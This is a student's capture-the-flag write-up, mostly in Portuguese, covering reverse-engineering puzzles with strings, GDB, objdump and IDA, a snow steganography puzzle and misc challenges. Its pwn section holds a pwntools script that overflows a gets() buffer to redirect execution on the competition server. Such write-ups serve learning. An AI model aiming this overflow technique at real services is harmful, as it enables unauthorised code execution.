

So [HackerSchool](http://hackerschool.tecnico.ulisboa.pt/) organized a CTF (Capture The Flag) tournament for portuguese university students. Since I've never participated in one, I've decided to try it out and see if I can learn something.

S/o my teammates (also their first contact with CTF's in general), we got placed 5th place, with 1760 points.

**Team 888海日人,,**:
  - [roby](https://github.com/roby2014)
  - [mura](https://github.com/muraa1)
  - [kardoso](https://github.com/diogocardoso28)
  - [sn0wygecko](https://github.com/eduardoervideira)

This post contains all the flags **I** could get and explaining my (dumb) solution.

**README: All the challenges are written in portuguese (sadly), so my write-ups are also in portuguese.**
*Use a translator if you are really interested :)*

## Challenges
### rev
- Introdução GDB [[Solução]](#introdução-gdb)
- Estás a olhar? [[Solução]](#estás-a-olhar)
- Nunca me Reverás [[Solução]](#nunca-me-reverás)

### pwn
- Borda Fora [[Solução]](#borda-fora)

### forensics
- Poema de neve [[Solução]](#poema-de-neve)

### misc
- Sanity check [[Solução]](#sanity-check)
- Amigos Dobráveis [[Solução]](#amigos-dobráveis)
- HS Jail [[Solução]](#hs-jail)


## rev
### Introdução GDB


```arm
$ ./introducao_gdb
Bem-vindo! Fiz um pequeno verificador de passwords eheh, consegues adivinhar?
ola
Hey! Isso não está bem, ai ai ai :(  
```

Eu sei que o objetivo era, como o título diz, utilizar o GDB, mas antes de saltar para essa parte, utilizei o comando `strings` para ver se conseguia encontrar a string crua no binário.
Utilizando `strings introducao_gdb`, consegui encontrar:
```
HS{y3yyyH
y_b0m_trH
4b4lh0_vH
4m0s_4_sH
3ri0_?}
```

Podemos também resolver utilizando o GDB, o que faria eu era o seguinte:
Primeiro ia verificar a função main:
```assembly
gef➤  disas main
Dump of assembler code for function main:
   0x0000555555555165 <+0>:	push   rbp
   0x0000555555555166 <+1>:	mov    rbp,rsp
   0x0000555555555169 <+4>:	sub    rsp,0x60
   0x000055555555516d <+8>:	lea    rdi,[rip+0xe94]        # 0x555555556008
   0x0000555555555174 <+15>:	call   0x555555555030 <puts@plt>
   0x0000555555555179 <+20>:	lea    rax,[rbp-0x30]
   0x000055555555517d <+24>:	mov    rsi,rax
   0x0000555555555180 <+27>:	lea    rdi,[rip+0xecf]        # 0x555555556056
   0x0000555555555187 <+34>:	mov    eax,0x0
   0x000055555555518c <+39>:	call   0x555555555050 <__isoc99_scanf@plt>
   0x0000555555555191 <+44>:	movabs rax,0x79797933797b5348
   0x000055555555519b <+54>:	movabs rdx,0x72745f6d30625f79
   0x00005555555551a5 <+64>:	mov    QWORD PTR [rbp-0x60],rax
   0x00005555555551a9 <+68>:	mov    QWORD PTR [rbp-0x58],rdx
   0x00005555555551ad <+72>:	movabs rax,0x765f30686c346234
   0x00005555555551b7 <+82>:	movabs rdx,0x735f345f73306d34
   0x00005555555551c1 <+92>:	mov    QWORD PTR [rbp-0x50],rax
   0x00005555555551c5 <+96>:	mov    QWORD PTR [rbp-0x48],rdx
   0x00005555555551c9 <+100>:	movabs rax,0x7d3f5f30697233
   0x00005555555551d3 <+110>:	mov    QWORD PTR [rbp-0x40],rax
   0x00005555555551d7 <+114>:	mov    BYTE PTR [rbp-0x38],0x0
   0x00005555555551db <+118>:	mov    DWORD PTR [rbp-0x4],0x0
   0x00005555555551e2 <+125>:	jmp    0x555555555232 <main+205>
   0x00005555555551e4 <+127>:	lea    rdx,[rbp-0x60]
   0x00005555555551e8 <+131>:	mov    eax,DWORD PTR [rbp-0x4]
   0x00005555555551eb <+134>:	cdqe
   0x00005555555551ed <+136>:	add    rdx,rax
   0x00005555555551f0 <+139>:	lea    rcx,[rbp-0x30]
   0x00005555555551f4 <+143>:	mov    eax,DWORD PTR [rbp-0x4]
   0x00005555555551f7 <+146>:	cdqe
   0x00005555555551f9 <+148>:	add    rax,rcx
   0x00005555555551fc <+151>:	movzx  eax,BYTE PTR [rax]
   0x00005555555551ff <+154>:	movzx  edx,BYTE PTR [rdx]
   0x0000555555555202 <+157>:	movzx  eax,al
   0x0000555555555205 <+160>:	movzx  edx,dl
   0x0000555555555208 <+163>:	sub    eax,edx
   0x000055555555520a <+165>:	mov    DWORD PTR [rbp-0x8],eax
   0x000055555555520d <+168>:	cmp    DWORD PTR [rbp-0x8],0x0
   0x0000555555555211 <+172>:	je     0x55555555522e <main+201>
   0x0000555555555213 <+174>:	lea    rdi,[rip+0xe46]        # 0x555555556060
   0x000055555555521a <+181>:	mov    eax,0x0
   0x000055555555521f <+186>:	call   0x555555555040 <printf@plt>
   0x0000555555555224 <+191>:	mov    edi,0x0
   0x0000555555555229 <+196>:	call   0x555555555060 <exit@plt>
   0x000055555555522e <+201>:	add    DWORD PTR [rbp-0x4],0x1
   0x0000555555555232 <+205>:	cmp    DWORD PTR [rbp-0x4],0x26
   0x0000555555555236 <+209>:	jle    0x5555555551e4 <main+127>
   0x0000555555555238 <+211>:	lea    rdi,[rip+0xe47]        # 0x555555556086
   0x000055555555523f <+218>:	mov    eax,0x0
   0x0000555555555244 <+223>:	call   0x555555555040 <printf@plt>
   0x0000555555555249 <+228>:	nop
   0x000055555555524a <+229>:	leave
   0x000055555555524b <+230>:	ret
End of assembler dump.
```

Podemos ver que no endereço de memória `0x000055555555520d` acontece o seguinte:
```assembly
0x000055555555520d <+168>:	cmp    DWORD PTR [rbp-0x8],0x0
0x0000555555555211 <+172>:	je     0x55555555522e <main+201>
```
O que consigo interpretar é, fazemos uma comparação e caso seja igual (`je` *= jump if equal*), saltamos para `0x55555555522e`. Estou a assumir que isto compara a string que enviamos como input e a flag original.

Se metermos um breakpoint antes de saltar (`b *0x0000555555555211`), podemos observar o seguinte:

Boom, a string está vísivel no stack.

### Estás a olhar?


```bash
$ ./estas_a_olhar
Flag aqui? nunca #HS 
```

Desta vez, o objetivo era utilizar o comando `strings` mesmo, mas depois de não sei quanto tempo a experimentar os vários argumentos, não consegui chegar lá só com o comando.
Portanto armei-me em trolha e fui dar disassembly ao binário:

`objdump estas_a_olhar -d -M intel` 
*(intel syntax porque ATT dá-me dores de cabeça)*

Olhando para a função main, temos o seguinte:
```assembly
0000000000001135 <main>:
    1135:	55                   	push   rbp
    1136:	48 89 e5             	mov    rbp,rsp
    1139:	48 83 ec 50          	sub    rsp,0x50
    113d:	48 c7 45 f2 00 00 00 	mov    QWORD PTR [rbp-0xe],0x0
    1144:	00
    1145:	c7 45 fa 00 00 00 00 	mov    DWORD PTR [rbp-0x6],0x0
    114c:	66 c7 45 fe 00 00    	mov    WORD PTR [rbp-0x2],0x0
    1152:	c7 45 ee 48 53 7b 00 	mov    DWORD PTR [rbp-0x12],0x7b5348
    1159:	c7 45 ea 77 34 31 00 	mov    DWORD PTR [rbp-0x16],0x313477
    1160:	c7 45 e6 74 5f 73 00 	mov    DWORD PTR [rbp-0x1a],0x735f74
    1167:	c7 45 e2 30 5f 00 00 	mov    DWORD PTR [rbp-0x1e],0x5f30
    116e:	c7 45 de 73 74 72 00 	mov    DWORD PTR [rbp-0x22],0x727473
    1175:	c7 45 da 31 6e 67 00 	mov    DWORD PTR [rbp-0x26],0x676e31
    117c:	c7 45 d6 73 5f 77 00 	mov    DWORD PTR [rbp-0x2a],0x775f73
    1183:	c7 45 d2 30 72 00 00 	mov    DWORD PTR [rbp-0x2e],0x7230
    118a:	c7 45 ce 6b 73 5f 00 	mov    DWORD PTR [rbp-0x32],0x5f736b
    1191:	c7 45 ca 30 72 00 00 	mov    DWORD PTR [rbp-0x36],0x7230
    1198:	c7 45 c6 5f 6e 30 00 	mov    DWORD PTR [rbp-0x3a],0x306e5f
    119f:	c7 45 c2 74 3f 3f 00 	mov    DWORD PTR [rbp-0x3e],0x3f3f74
    11a6:	c7 45 be 3f 7d 00 00 	mov    DWORD PTR [rbp-0x42],0x7d3f
    11ad:	48 8d 3d 50 0e 00 00 	lea    rdi,[rip+0xe50]        # 2004 <_IO_stdin_used+0x4>
    11b4:	b8 00 00 00 00       	mov    eax,0x0
    11b9:	e8 72 fe ff ff       	call   1030 <printf@plt>
    11be:	90                   	nop
    11bf:	c9                   	leave
    11c0:	c3                   	ret
    11c1:	66 2e 0f 1f 84 00 00 	cs nop WORD PTR [rax+rax*1+0x0]
    11c8:	00 00 00
    11cb:	0f 1f 44 00 00       	nop    DWORD PTR [rax+rax*1+0x0]
```

OK, e agora????

Reparei que antes de `call   1030 <printf@plt>` (suponho que seja a instrução que printa o *"Flag aqui? nunca #HS"*), temos muitos `movs` de valores estranhos em hex.
Portanto, olhei para `mov    DWORD PTR [rbp-0x12],0x7b5348` e fui converter `0x7b5348` para texto, o resultado foi `{SH`, que por acaso, é o ínicio do formato da flag (`HS{.....}`). Depois disto, percebi que a flag está separada pelas várias instruções em valor hexadecimal (em little-endian! Temos que inverter a ordem dos bytes), portanto fui converter todos os valores (xD):
```
0x7b5348  ->  \x7b\x53\x48 = {SH  ->  \x48\x53\x7b = HS{
0x313477  ->  \x31\x34\x77 = 14w  ->  \x77\x34\x31 = w41
0x735f74  ->  \x73\x5f\x74 = s_t  ->  \x74\x5f\x73 = t_s
0x5f30    ->  \x5f\x30     = _0   ->  \x30\x5f     = 0_
0x727473  ->  \x72\x74\x73 = rts  ->  \x73\x74\x72 = str
0x676e31  ->  \x67\x6e\x31 = gn1  ->  \x31\x63\x67 = 1ng
0x775f73  ->  \x77\x5f\x73 = w_s  ->  \x73\x5f\x77 = s_w
0x7230    ->  \x72\x30     = r0   ->  \x30\x72     = 0r
0x5f736b  ->  \x5f\x73\x6b = _sk  ->  \x6b\x73\x5f = ks_
0x7230    ->  \x72\x30     = r0   ->  \x30\x72     = 0r
0x306e5f  ->  \x30\x6e\x5f = 0n_  ->  \x5f\x6e\x30 = _n0
0x3f3f74  ->  \x3f\x3f\x74 = ??t  ->  \x74\x3f\x3f = t??
0x7d3f    ->  \x7d\x3f     = }?   ->  \x3f\x7d     = ?}
```
Flag: `HS{w41t_s0_str1ngs_w0rks_0r_n0t???}`

Acabei por descobrir no final da competição que era só executar `strings -n 2` LOL.

## Nunca me Reverás


```bash
$ ./reveras
Vamos lá rever a pass! Dá input:
ola
Ui má revisão
```

`strings` e `objdump` não me ajudaram muito neste caso, também porque o meu conhecimento de assembly é limitado e este challenge parecia ligeiramente mais díficil, portanto recorri ao meu IDA Pro (pago obviamente) e converti isto para C.

A função main ficou algo deste género:
```c
int __cdecl main(int argc, const char **argv, const char **envp) 
{
    int i; // [rsp+4h] [rbp-5Ch]
    int v6; // [rsp+8h] [rbp-58h]
    char v7[32]; // [rsp+10h] [rbp-50h] BYREF
    char v8[40]; // [rsp+30h] [rbp-30h] BYREF
    unsigned __int64 v9; // [rsp+58h] [rbp-8h]

    v9 = __readfsqword(0x28u);
    puts(s);
    __isoc99_scanf("%s", v7);
    strcpy(v8, "jv>,247<DQf(_X(QJl'd\\1^`/`p");

    for ( i = 0; i <= 26; ++i )
    {
        v6 = v7[i];
        if ( (int)(next(i) + v6) % 96 + 34 != v8[i] )
        {
            printf("Ui má revisão");
            exit(0);
        }
    }

    printf("Password revista!!!!!!!!! Esta certo :)");
    return __readfsqword(0x28u) ^ v9;
}
```

Um bocado confuso, mas a parte mais importante aqui é o loop:
```c
for ( i = 0; i <= 26; ++i )
{
    v6 = v7[i];
    if ( (int)(next(i) + v6) % 96 + 34 != v8[i] )
    {
        printf("Ui má revisão");
        exit(0);
    }
}
``` 

e a função `next`:
```c
__int64 __fastcall next(int a1) {
    int v2; // ebx
    if (a1 <= 1)
        return (unsigned int)a1;
    v2 = next((unsigned int)(a1 - 1));
    return v2 + (unsigned int)next((unsigned int)(a1 - 2));
}
```

Este loop verifica letra a letra da nossa chave se corresponde ao que é suposto, se não corresponder, o programa acaba.
Já conseguimos perceber que
- `v7` é o nosso input
- `(int)(next(i) + v6) % 96 + 34 != v8[i]` é a "fórmula mágica"
- `v8` tem alguma ligação com a fórmula e a flag
- A chave tem `26+1` bytes

O melhor que consegui pensar foi, dividir a fórmula mágica, e fazer um *bruteforce* em todas os chars possíveis e verificar se é igual ao que é suposto ser (`v8[i]`).
Ficou algo deste género:
```c
for (int i = 0; i <= 26; ++i)
    {
        auto n = (int)(next(i));

        int count = 0; // obter só o primeiro char
        for (int j = 0; j < 256; j++)
        {
            auto a = n + j;
            auto b = a % 96;
            auto c = b + 34;

            if (c == v8[i])
            {
                if (count == 1)
                {
                    printf("%c", j);
                    break;
                }
                count++;
            }
        }
    }
```

Flag: `��{hmmmmmmmmmmmmmmmmmmmmmm}`

Não sei porquê é que a parte inicial aparece assim, mas o importante é que a flag funcionou!


## pwn
### Borda Fora


```bash
$ ./borda_fora
Bem-vindos a um desafio de buffer overflow!
Primeiro é tentar compilar o binário com gcc e ver os avisos que mostra
Qual é o problema destas funções?
Há outra função neste desafio que pode ser útil :)
aaa
```

Ok, este foi engraçado, o objetivo é dar buffer overflow pelos vistos.
O comando `strings` não ajudou, portanto, fui direto para o disassembly.
`objdump borda_fora -d -M intel` mostra me o seguinte:
```assembly
0000000000400757 <funcao_nada_suspeita>:
  400757:	55                   	push   rbp
  400758:	48 89 e5             	mov    rbp,rsp
  40075b:	48 83 ec 10          	sub    rsp,0x10
  40075f:	48 8d 3d 82 01 00 00 	lea    rdi,[rip+0x182]        # 4008e8 <_IO_stdin_used+0x8>
  400766:	e8 85 fe ff ff       	call   4005f0 <puts@plt>
  40076b:	bf 64 00 00 00       	mov    edi,0x64
  400770:	e8 bb fe ff ff       	call   400630 <malloc@plt>
  400775:	48 89 45 f8          	mov    QWORD PTR [rbp-0x8],rax
  400779:	be 00 00 00 00       	mov    esi,0x0
  40077e:	48 8d 3d 6c 01 00 00 	lea    rdi,[rip+0x16c]        # 4008f1 <_IO_stdin_used+0x11>
  400785:	b8 00 00 00 00       	mov    eax,0x0
  40078a:	e8 c1 fe ff ff       	call   400650 <open@plt>
  40078f:	89 45 f4             	mov    DWORD PTR [rbp-0xc],eax
  400792:	48 8b 4d f8          	mov    rcx,QWORD PTR [rbp-0x8]
  400796:	8b 45 f4             	mov    eax,DWORD PTR [rbp-0xc]
  400799:	ba 64 00 00 00       	mov    edx,0x64
  40079e:	48 89 ce             	mov    rsi,rcx
  4007a1:	89 c7                	mov    edi,eax
  4007a3:	e8 68 fe ff ff       	call   400610 <read@plt>
  4007a8:	48 8b 45 f8          	mov    rax,QWORD PTR [rbp-0x8]
  4007ac:	ba 64 00 00 00       	mov    edx,0x64
  4007b1:	48 89 c6             	mov    rsi,rax
  4007b4:	bf 01 00 00 00       	mov    edi,0x1
  4007b9:	e8 42 fe ff ff       	call   400600 <write@plt>
  4007be:	bf 39 05 00 00       	mov    edi,0x539
  4007c3:	e8 98 fe ff ff       	call   400660 <exit@plt>

00000000004007c8 <main>:
  4007c8:	55                   	push   rbp
  4007c9:	48 89 e5             	mov    rbp,rsp
  4007cc:	48 83 ec 50          	sub    rsp,0x50
  4007d0:	48 8b 05 a9 08 20 00 	mov    rax,QWORD PTR [rip+0x2008a9]        # 601080 <stdin@GLIBC_2.2.5>
  4007d7:	b9 00 00 00 00       	mov    ecx,0x0
  4007dc:	ba 02 00 00 00       	mov    edx,0x2
  4007e1:	be 00 00 00 00       	mov    esi,0x0
  4007e6:	48 89 c7             	mov    rdi,rax
  4007e9:	e8 52 fe ff ff       	call   400640 <setvbuf@plt>
  4007ee:	48 8b 05 7b 08 20 00 	mov    rax,QWORD PTR [rip+0x20087b]        # 601070 <stdout@GLIBC_2.2.5>
  4007f5:	b9 00 00 00 00       	mov    ecx,0x0
  4007fa:	ba 02 00 00 00       	mov    edx,0x2
  4007ff:	be 00 00 00 00       	mov    esi,0x0
  400804:	48 89 c7             	mov    rdi,rax
  400807:	e8 34 fe ff ff       	call   400640 <setvbuf@plt>
  40080c:	48 8d 3d ed 00 00 00 	lea    rdi,[rip+0xed]        # 400900 <_IO_stdin_used+0x20>
  400813:	e8 d8 fd ff ff       	call   4005f0 <puts@plt>
  400818:	48 8d 3d 11 01 00 00 	lea    rdi,[rip+0x111]        # 400930 <_IO_stdin_used+0x50>
  40081f:	e8 cc fd ff ff       	call   4005f0 <puts@plt>
  400824:	48 8d 3d 55 01 00 00 	lea    rdi,[rip+0x155]        # 400980 <_IO_stdin_used+0xa0>
  40082b:	e8 c0 fd ff ff       	call   4005f0 <puts@plt>
  400830:	48 8d 3d 71 01 00 00 	lea    rdi,[rip+0x171]        # 4009a8 <_IO_stdin_used+0xc8>
  400837:	e8 b4 fd ff ff       	call   4005f0 <puts@plt>
  40083c:	48 8d 45 b0          	lea    rax,[rbp-0x50]
  400840:	48 89 c7             	mov    rdi,rax
  400843:	b8 00 00 00 00       	mov    eax,0x0
  400848:	e8 d3 fd ff ff       	call   400620 <gets@plt>
  40084d:	b8 00 00 00 00       	mov    eax,0x0
  400852:	c9                   	leave
  400853:	c3                   	ret
  400854:	66 2e 0f 1f 84 00 00 	cs nop WORD PTR [rax+rax*1+0x0]
  40085b:	00 00 00
  40085e:	66 90                	xchg   ax,ax
```

Assustador, mas not really.

Podemos observar que o `main` lê o nosso input com a função `gets` (`call   400620 <gets@plt>`), o que é uma ideia pessima, pois não tem um limite para ler input do buffer, portanto podemos manipular o programa com um simples input, que é o objetivo da challenge.
Se olharmos atentamente, existe uma função `funcao_nada_suspeita`, que abre um ficheiro (`call   400650 <open@plt>`), assumi que esta função é a que printa a flag que está no servidor do binário. Mas esta função não é chamada pelo `main`, por isso, como é que resolvemos?

Ok, a ideia é: encher o buffer todo e enviar os bytes que representam o endereço da função `funcao_nada_suspeita`, pois assim conseguimos saltar para essa função e obter a flag.

Começei por descobrir apartir de quantos bytes é que o programa crasha.
Podemos observar no `main` a seguinte instrução: `sub    rsp,0x50`, por isso assumi que a string ia ser armazenada no stack, com tamanho `0x50 (80)`. Assim sabemos que o buffer enche depois de 80 bytes, depois de várias tentativa-erro, descobri que é apartir de 88 que o programa crasha:


E agora? Vamos experimentar enviar mais bytes:


Podemos observar que o resto do input foi para o stack também, e quando o `main` dá `retn`, ele dá `pop` ao valor que está no stack e armazena em `$rip` (*instruction pointer*). Como nós introduzimos `XXXXXXX (0x5858585858....)`, o programa não consegue continuar pois não existe nenhuma instrução nesse endereço de memória. 

**Portanto, como é que utilizamos isto a nosso favor?** Bem, é só enviarmos o endereço da função que queremos executar (`funcao_nada_suspeita`), portanto o `$rip` vai ter um valor válido e o programa continuará e mostrará a flag.

Se executarmos `disas funcao_nada_suspeita` no gdb:
```assembly
Dump of assembler code for function funcao_nada_suspeita:
   0x0000000000400757 <+0>:	push   rbp
   0x0000000000400758 <+1>:	mov    rbp,rsp
   .....
```
Sabemos que a função começa em `0x0000000000400757`, mas 1º precisamos de saber se o binário utiliza little-endian ou big-endian, por isso utilizamos o comando `file`:
```bash
$ file borda_fora
borda_fora: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=3063c552547e261d582f295694edb3ac275265e3, not stripped
``` 
"LSB" significa Least significant Byte, portanto é little-endian, temos que enviar nesta ordem: `\x57\x07\x40\x00\x00\x00\x00\x00`.

Para isto, fiz um simples script em python, utilizando a lib `pwntools`.

```python
import pwn
import sys

elf = pwn.ELF("./borda_fora")

p = 0
if 'local' in sys.argv:
    p = elf.process()
else:
    p = pwn.remote('193.136.166.70', '4000')

fun = pwn.p64(elf.symbols["funcao_nada_suspeita"]) #lsb address
segv_start = 88 # aKa where SEGV starts
payload = b"".join([
    b"A"*segv_start,
    fun,
])

#in case we want to debug w gdb
#pwn.context.terminal = ['alacritty', '-e', 'sh', '-c']
#pwn.gdb.attach(p, gdbscript='''
#b somewhere...
#r < payload
#''')

p.recv()
p.sendline(payload)
p.recv()
p.interactive()

```

Resultado:
```bash
$ python3 borda_fora.py
[*] '/mnt/c/Coding/ctf_hackerschool/borda_fora_/borda_fora'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 193.136.166.70 on port 4000: Done
[*] Switching to interactive mode
Vitória
HS{tH3_buff3r_flow}
```

Flag: `HS{tH3_buff3r_flow}`

## forensics

### Poema de neve


Perdemos bastante tempo com este... No ínicio reparamos nos espaços no final de cada linha e pensávamos que era código morse ou assim... Mas não estávamos a conseguir relacionar a palavra "neve" da hint.

Depois de alguma pesquisa, descobrimos a tool `snow`, que é usada para steganography, mais concreto, esconder mensagens secretas com espaços.

```bash
$ snow -C poema_neve.txt
HS{n3v3_n3v3_0h_4_b3l4_n3v3_qu3_m3_3sp4nt4s}
```

Flag: `HS{n3v3_n3v3_0h_4_b3l4_n3v3_qu3_m3_3sp4nt4s}`

## misc

### Sanity Check


Esta foi só procurar nos canais de discord do servidor.


Flag: `HS{d1sc0rd_fl4g?}`

### Amigos Dobráveis


Fui simplesmente pesquisar por origami simulator online, e meter o ficheiro lá:


Flag: `HS{HELP}`

### HS Jail


Depois de alguma pesquisa e tentativa-erro, o comando é `help`, portanto `help(flag)` é a solução.


Flag: `HS{did_you_get_help?_0r_n0t??}`

### 
You can also find the writeups [here](https://github.com/roby2014/HS_CTF).
